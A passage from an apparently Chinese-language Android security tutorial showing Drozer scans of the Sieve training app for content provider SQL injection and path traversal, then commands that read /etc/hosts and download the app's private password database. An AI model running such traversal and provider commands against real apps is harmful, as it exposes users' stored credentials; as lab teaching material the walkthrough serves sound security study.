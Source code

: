 ```c
  content://com.mwr.example.sieve.FileBackupProvider/
  content://com.mwr.example.sieve.DBContentProvider
  content://com.mwr.example.sieve.FileBackupProvider

Injection in Projection:
  content://com.mwr.example.sieve.DBContentProvider/Keys/
  content://com.mwr.example.sieve.DBContentProvider/Passwords
  content://com.mwr.example.sieve.DBContentProvider/Passwords/

Injection in Selection:
  content://com.mwr.example.sieve.DBContentProvider/Keys/
  content://com.mwr.example.sieve.DBContentProvider/Passwords
  content://com.mwr.example.sieve.DBContentProvider/Passwords/
```

目录遍历：

```c
dz> run scanner.provider.traversal -a com.mwr.example.sieve
Scanning com.mwr.example.sieve...
Not Vulnerable:
  content://com.mwr.example.sieve.DBContentProvider/
  content://com.mwr.example.sieve.DBContentProvider/Keys
  content://com.mwr.example.sieve.DBContentProvider/Passwords/
  content://com.mwr.example.sieve.DBContentProvider/Keys/
  content://com.mwr.example.sieve.DBContentProvider/Passwords
  content://com.mwr.example.sieve.DBContentProvider

Vulnerable Providers:
  content://com.mwr.example.sieve.FileBackupProvider/
  content://com.mwr.example.sieve.FileBackupProvider
```

利用：

```c
// 读取hosts文件
dz> run app.provider.read content://com.mwr.example.sieve.FileBackupProvider/../../etc/hosts
127.0.0.1                   localhost

// 下载私有目录下的数据库文件
dz> run app.provider.download  content://com.mwr.example.sieve.FileBackupProvider/../../data/data/com.mwr.example.sieve/databases/database.db /tmp/sieve.db
Written 24576 bytes

// 查看刚刚下载的文件
rz:/tmp$ ls -l | grep sieve
-rw-rw-rw- 1 rz rz      24576 Aug 11 10:29 sieve.db
```

#### Service

查看Service信息
